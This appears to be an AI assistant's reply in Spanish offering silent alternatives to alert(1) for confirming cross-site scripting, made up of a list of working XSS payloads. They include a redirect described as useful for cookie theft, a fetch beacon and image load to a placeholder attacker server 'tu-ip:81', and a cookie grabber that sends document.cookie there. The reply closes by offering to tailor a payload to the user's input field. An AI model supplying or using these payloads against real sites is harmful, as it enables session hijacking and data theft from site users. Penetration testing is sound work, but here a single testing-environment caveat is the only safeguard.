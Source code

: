 ¡Buena decisión! Usar `alert(1)` es muy útil como prueba rápida, pero sí, puede ser molesto. Aquí tienes varias **alternativas silenciosas o menos intrusivas** que puedes usar para probar si el XSS funciona **sin mostrar alertas**:

---

### 🔹 1. Consola del navegador (más silencioso)

```html
<script>console.log('XSS')</script>
```

- Resultado: Solo se imprime en la consola, no molesta visualmente.
    

---

### 🔹 2. Background en el `body` (cambia el color de fondo)

```html
<body style="background:red">
```

- Visual y clara sin generar pop-ups.
    

---

### 🔹 3. Cambio de título de la página

```html
<script>document.title = "XSS found"</script>
```

- Muy útil para ver si se ejecutó sin necesidad de alertas.
    

---

### 🔹 4. Redirección (cuidado)

```html
<script>location.href='https://tu-servidor.com'</script>
```

- Útil para robo de cookies, pero molesto si no estás preparado.
    
- Puedes redirigir a una página de prueba controlada por ti.
    

---

### 🔹 5. Petición silenciosa a tu servidor

```html
<script>fetch('http://tu-ip:81/log?xss=ok')</script>
```

- Ideal para cazar XSS sin mostrar nada.
    
- Puedes escuchar las peticiones con `python3 -m http.server 81`.
    

---

### 🔹 6. Cargar una imagen remota (exfiltración)

```html
<img src="http://tu-ip:81/xss.png" />
```

- Si el navegador carga la imagen, el XSS ocurrió.
    

---

### 🔹 7. Cookie grabber (solo si `HttpOnly` está en `false`)

```html
<script>new Image().src='http://tu-ip:81/log?cookie='+document.cookie</script>
```

- No genera pop-ups, solo manda las cookies al servidor.
    

---

### 🛑 Recomendación

Antes de usar payloads que hacen peticiones salientes, asegúrate de estar en un entorno de pruebas controlado.

¿Quieres que te prepare un payload adaptado a tu campo (por ejemplo input, textarea o parámetro de URL)?